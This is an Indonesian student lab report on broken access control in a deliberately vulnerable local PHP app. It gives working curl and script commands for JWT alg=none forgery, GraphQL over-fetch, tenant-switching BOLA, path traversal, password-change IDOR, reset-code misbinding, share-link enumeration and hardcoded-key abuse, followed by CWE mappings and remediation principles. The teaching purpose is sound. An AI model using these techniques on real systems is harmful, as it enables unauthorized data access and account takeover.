

<div align="center">
  
  <h1>🧩 LAPORAN PRAKTIKUM — Broken Access Control (Bagian 3)</h1>
  <p><b>LAB-RED Team · Tugas Kuliah Keamanan Web</b> · dibuat oleh <b>kikikokok</b></p>
  <p>PHP 8 + MariaDB · OWASP Top 10 Web 2021 — <b>A01 Broken Access Control</b> · ⚠️ lokal saja</p>
</div>

---

## 1. Tujuan

Lab #1 & #2 mengeksplorasi IDOR dan pola otorisasi klasik (Referer/cookie/metode HTTP).
Lab #3 memindai **pola BAC modern yang lazim ditemukan di program bug bounty
(HackerOne/Bugcrowd)**: aplikasi **API-first** dan **multi-tenant/multi-cabang** di mana
kekeliruan pemisahan data antar tenant, verifikasi token, pengerjaan path file, dan
penyimpanan secret menjadi sumber temuan.

## 2. Menjalankan

```bash
./jalankan.sh          # DB lab_bac3 + server :8094
./jalankan.sh stop     # matikan
```

## 3. Temuan & Alur Eksploitasi

### 3.1 · JWT Forgery (`alg=none`) & Secret Lemah
- **File:** `api/auth/token.php` (terbit) , `api/auth/me.php` (konsumsi),
  `jwt_decode_flawed()` di `includes/koneksi.php`
- **Cek palsu:** server mempercayai token bila *header* `alg=none` — tanpa verifikasi
  tanda tangan. Secret HS256 juga statis dan lemah (`KIKI_TOKEN_2026`).
- **Eksploit:**
  ```bash
  # (a) mint token admin palsu dengan alg=none
  python3 tools/forge_none_jwt.py --uid 1 --role admin
  # tempel hasilnya ke header Authorization, mis:
  curl -s http://127.0.0.1:8094/api/auth/me.php \
       -H "Authorization: Bearer eyJhbGciOiJub25l..."
  # (b) maupun memecahkan secret HS256 yang lemah lalu memalsukan token sah
  TOK=$(curl -s -X POST http://127.0.0.1:8094/api/auth/token.php \
        -H 'Content-Type: application/json' \
        -d '{"username":"budi","password":"budi123"}' \
        | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
  python3 tools/crack_secret.py "$TOK"
  python3 tools/forge_secret_jwt.py   # lalu pakai hasilnya sbg Bearer
  ```
  Keluarannya: data **admin (password admin123)** tampil tanpa pernah login.

### 3.2 · GraphQL Over-Fetch & Alias Batching
- **File:** `api/gql.php`
- **Cek palsu:** endpoint tanpa autentikasi; selalu mengembalikan **seluruh kolom** baris
  (over-fetch) dan menerima *alias* untuk meminta banyak objek sekaligus.
- **Eksploit (minta `judul`, tapi terima `isi` rahasia & `password`):**
  ```bash
  curl -s -X POST http://127.0.0.1:8094/api/gql.php -H 'Content-Type: application/json' \
    -d '{"query":"{ a:laporan(id:3){judul} b:profil(id:1){nama} }"}'
  ```
  `a` = isi catatan audit (RAHASIA) + `b` = password akun admin.

### 3.3 · BOLA Multi-Tenant (ganti cabang lewat `?org=`)
- **File:** `rekap/list.php`
- **Cek palsu:** `cabang_id` dibaca dari `$_GET['org']` — tanpa mengikat sesi/akun ke cabang.
- **Eksploit (tanpa login, lihat keuangan cabang Bandung = tenant lain):**
  ```bash
  curl -s "http://127.0.0.1:8094/rekap/list.php?org=2"
  ```
  Cabang 1 menampilkan Rp39.100.000, cabang 2 menampilkan Rp21.400.000 —
  semua bisa ditelusuri cukup dengan mengeset `org` sesuka hati.

### 3.4 · Path Traversal & IDOR pada Unduhan File
- **File:** `download.php`, konten di `files/private/`
- **Cek palsu:** parameter `f` dipakai langsung ke path (`files/private/` . `$f`),
  tidak ada `basename`/whitelist dan tidak ada cek kepemilikan.
- **Eksploit:**
  ```bash
  curl -s "http://127.0.0.1:8094/download.php?f=CV-riko.txt"      # CV orang lain
  curl -s "http://127.0.0.1:8094/download.php?f=../../database/lab_bac3.sql"  # traversal
  ```
  Berhasil mengunduh CV antar pengguna dan **dump utuh database**.

### 3.5 · IDOR Change-Password → Account Takeover
- **File:** `api/akun/update.php`
- **Cek palsu:** butuh token valid **apa saja**, tetapi id target diambil dari body
  (`user_id`) tanpa dibandingkan dengan `uid` di dalam token.
- **Eksploit (token budi, ganti password admin):**
  ```bash
  TOK=$(curl -s -X POST http://127.0.0.1:8094/api/auth/token.php \
        -H 'Content-Type: application/json' -d '{"username":"budi","password":"budi123"}' \
        | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
  curl -s -X POST http://127.0.0.1:8094/api/akun/update.php \
       -H "Authorization: Bearer $TOK" -H 'Content-Type: application/json' \
       -d '{"user_id":1,"password":"DIBOBOL"}'
  curl -s -X POST http://127.0.0.1:8094/api/auth/token.php \
       -H 'Content-Type: application/json' -d '{"username":"admin","password":"DIBOBOL"}'
  ```
  Login admin berhasil dengan password baru — akun dikomando penuh.

### 3.6 · Reset Code Tidak Terikat Akun (Broken Token Binding)
- **File:** `api/lupa/req.php`, `api/lupa/terapkan.php`
- **Cek palsu:** validitas kode hanya diuji "ada di tabel", lalu password **username dari body**
  direset — padahal baris `reset_kode` yang cocok milik akun lain.
- **Eksploit (kode punya budi, dipakai reset admin):**
  ```bash
  KODE=$(curl -s -X POST http://127.0.0.1:8094/api/lupa/req.php \
         -H 'Content-Type: application/json' -d '{"username":"budi"}' \
         | python3 -c 'import sys,json;print(json.load(sys.stdin)["kode"])')
  curl -s -X POST http://127.0.0.1:8094/api/lupa/terapkan.php \
       -H 'Content-Type: application/json' \
       -d "{\"username\":\"admin\",\"kode\":\"$KODE\",\"password\":\"BAJAK\"}"
  ```
  Server mengaku: *"kode itu aslinya milik: Budi Santoso"* — tapi password admin berubah.

### 3.7 · Share-Link Token Berurutan (Unlisted / Sequential Enumeration)
- **File:** `share.php`
- **Cek palsu:** token = id baris tabel `share` yang berurutan (1,2,3,…), tanpa login.
- **Eksploit (loop enumerasi):**
  ```bash
  for i in $(seq 1 8); do
    curl -s "http://127.0.0.1:8094/share.php?t=$i" | grep -oE '<h3>[^<]+'
  done
  ```
  `t=6` membuka laporan **Audit Internal – Selisih Kas** yang seharusnya internal.

### 3.8 · Hardcoded API Key di Bundle JS → Fungsi Admin
- **File:** `assets/app.js` (key `bx7-9f3-KIKIKOKOK`), `admin/aksi.php`
- **Cek palsu:** endpoint admin TIDAK di-link dari menu (obscurity) dan hanya mencocokkan
  key statis yang ikut diunduh browser.
- **Eksploit (ekstrak key dari JS lalu hapus laporan):**
  ```bash
  KEY=$(curl -s http://127.0.0.1:8094/assets/app.js \
        | grep -oE 'API_KEY = "[^"]+"' | grep -oE '[a-zA-Z0-9-]+' | tail -1)
  curl -s http://127.0.0.1:8094/admin/aksi.php -H "Authorization: Bearer $KEY"
  curl -s -X POST http://127.0.0.1:8094/admin/aksi.php \
       -H "Authorization: Bearer $KEY" --data-urlencode 'ids[]=5'
  ```
  Tanpa key: `401`. Dengan key dari JS: daftar laporan terbuka & laporan bisa dihapus.

## 4. Peta CWE

| Tipe | CWE |
|------|-----|
| 3.1 JWT forgery | CWE-287 (Improper Authentication), CWE-345 (Insufficient Verification) |
| 3.2 GraphQL over-fetch | CWE-200 (Exposure of Sensitive Info), CWE-639 |
| 3.3 BOLA tenant | CWE-639 (Authorization Bypass Through User-Controlled Key) |
| 3.4 Traversal+IDOR file | CWE-22 (Path Traversal), CWE-639 |
| 3.5 Change-password IDOR | CWE-639 (write), CWE-620 (Unverified Password Change) |
| 3.6 Reset code binding | CWE-285 (Improper Authorization), CWE-640 (Weak Recovery) |
| 3.7 Sequential share link | CWE-639, CWE-330 (Predictable tokens) |
| 3.8 Hardcoded key | CWE-798 (Hard-coded Credentials), CWE-306 (Missing Auth) |

## 5. Kesimpulan

Tiga fondasi otorisasi yang harus selalu benar:

1. **Sumber kebenaran** identitas & wewenang ada di **server** (sesi/claim), bukan di
   parameter (URL/body), header yang bisa dipalsukan, atau secret yang ikut ke browser.
2. **Setiap akses objek** — baca maupun tulis, satu atau massal — wajib lewat **satu
   titik cek** yang membandingkan *pemilik/target* dengan *identitas terotentikasi*.
3. **Library & mekanisme** (JWT/library GraphQL, handler file, reset password) harus
   dipakai dengan pemahaman batasan default-nya, bukan asal.

Dengan tiga fondasi itu, delapan temuan di atas — yang sangat umum dijumpai di program
bug bounty — bisa dicegah sebelum sampai ke produksi.